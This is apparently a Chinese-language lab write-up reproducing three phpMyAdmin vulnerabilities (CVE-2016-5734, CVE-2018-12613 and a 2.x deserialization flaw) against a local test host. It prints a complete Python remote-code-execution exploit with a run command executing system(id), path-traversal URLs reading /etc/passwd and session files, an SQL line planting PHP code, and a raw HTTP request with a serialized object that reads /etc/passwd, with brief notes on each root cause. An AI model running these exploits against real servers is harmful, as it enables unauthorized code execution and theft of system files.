


# phpmyadmin(远程代码执行)

> CVE-2016-5734

### 环境准备


- 靶机:`192.168.66.251:8080`

### 准备poc

```py
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```

```cmd
python poc.py -c 'system(id);' -u root -p root -d test http://192.168.66.251:8080/
```


### 漏洞原理

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。在其查找并替换字符串功能中，将用户输入的信息拼接进`preg_replace`函数第一个参数中。

在PHP5.4.7以前，`preg_replace`的第一个参数可以利用\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

以下版本受到影响：

- 4.0.10.16之前4.0.x版本
- 4.4.15.7之前4.4.x版本
- 4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

****

# phpmyadmin(远程文件包含)

> CVE-2018-12613

### 环境准备



- 靶机:`192.168.66.251:8080`

### 开始攻击

- 访问url,`%253f->%3f->?`

```http
http://192.168.66.251:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```


- 执行sql语句

```sql
select '<?=phpinfo()?>' 
```


- 获取`sessionid`


```http
http://192.168.66.251:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_d965ff45ecf03f58928c0e2ac3b4897e
```

- 成功访问到`phpinfo`


### 漏洞原理

- phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其`index.php`中存在一处文件包含逻辑，通过`二次编码`即可绕过检查，造成`远程文件包含漏洞`。

****

# phpmyadmin(反序列化漏洞)

> WooYun-2016-199433
>
> 2.x 版本存在一处反序列化漏洞,攻击者可以通过该漏洞,读取任意文件或执行任意代码

### 环境准备



### 漏洞复现

- 打开`burp`进行抓包


```http
POST /scripts/setup.php HTTP/1.1
Host: 192.168.66.251:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

- 发送数据包


